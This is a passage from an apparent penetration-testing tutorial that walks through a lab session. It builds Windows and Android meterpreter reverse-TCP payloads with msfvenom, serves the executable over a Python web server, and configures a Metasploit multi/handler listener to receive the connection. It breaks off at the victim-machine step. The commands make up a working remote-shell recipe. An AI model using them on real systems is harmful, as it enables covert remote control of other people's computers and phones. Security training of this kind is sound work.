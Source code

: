 
**Common Examples:**

- **Generating a Windows reverse TCP payload:**

```c
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=4444 -f exe -o payload.exe
```

- **Generating an Android reverse TCP payload:**

```c
msfvenom -p android/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=4444 -f apk -o payload.apk
```


---
## Creating a Reverse Shell On Windows (Practical Session)



### Setting Up the Attack Machine:

1. Open the Kali Linux attack virtual machine and note its IP address (e.g., 10.60.0.7).
   
2. In the terminal, execute the `msfvenom` script to create a standalone payload as an executable file. Verify that the payload setup is successful.

3. Create a web file server on port 80 with the payload.exe directory by running the command:

```c
python -m http.server 80
```

### Configuring the Metasploit Framework:


1. Open a new terminal and start the Metasploit Framework console by typing `msfconsole`.
   
2. Once the console is ready, use the command `use multi/handler` to handle exploits launched outside the framework.

3. Configure the `exploit(multi/handler)` module with the same settings as the generated executable file by setting the payload, local host (LHOST), and local port (LPORT).


- Type `set payload windows/meterpreter/reverse_tcp` to set the payload.

- Type `set LHOST <attacker's IP> ` to set the local host to the Kali attack machine’s IP address.

- Type set `LPORT 4444` to set the local port as the same port made in the executable file.


4. Confirm that everything is set up correctly by entering the command `exploit` to start the server on the meterpreter, waiting for the payload connection.

![][https://miro.medium.com/v2/resize:fit:720/format:webp/1*c4OhK1vHz3gDr9elelrFYA.png]


### Preparing the Victim Machine:
